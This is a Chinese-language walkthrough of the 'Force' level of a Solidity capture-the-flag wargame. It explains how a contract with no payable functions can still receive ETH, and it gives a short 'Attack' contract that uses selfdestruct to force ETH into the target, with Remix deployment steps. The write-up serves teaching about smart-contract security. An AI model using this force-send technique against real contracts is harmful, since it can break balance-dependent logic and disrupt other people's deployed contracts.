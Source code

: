 ### 第八关 Force
### 难度3/5
## 这一关的通关条件是合约的余额大于零。
## 代码如下：
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
这个合约里面什么都没有，全是注释(有一只猫)。通关条件是使合约的余额大于0。一个合约要接受ETH，有这几种方法：
1. 合约里有一个payable修饰的函数。
2. 合约里有一个receive函数。
3. 有payable修饰的fallback函数。
4. 通过selfdestruct函数。
这道题很显然使用方法四来解。selfdestruct的作用是将合约从区块链上移除，清除其代码和存储数据，释放存储空间，将合约中剩余的 ETH 转到指定的接收地址。所以我们只需要新建一个攻击合约，调用selfdestruct，发送给Force合约。值得注意的是：“selfdestruct” 已被弃用。请注意，从坎昆硬分叉开始，底层操作码不再删除与账户关联的代码和数据，而只会将其中的 Ether 转移给受益人，除非在创建合约的同一笔交易中执行（参见 EIP-6780）。即使考虑到新的行为，也强烈建议不要在新部署的合约中使用。EVM 未来的变更可能会进一步削弱该操作码的功能。
## 解题步骤：
1. 打开remix线上编辑器,新建攻击合约：
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    uint public balance = 0;

    function destruct(address payable _to) external payable {
        selfdestruct(_to);
    }

    function acceptETH() external payable {
        balance += msg.value;
    }
}
```
2. 部署合约，调用acceptETH函数，发送一些ETH给合约(在Remix的“Deploy & Run”面板，填写value)。
3. 调用destruct合约，参数送入levelInstance地址。
4. 提交过关。
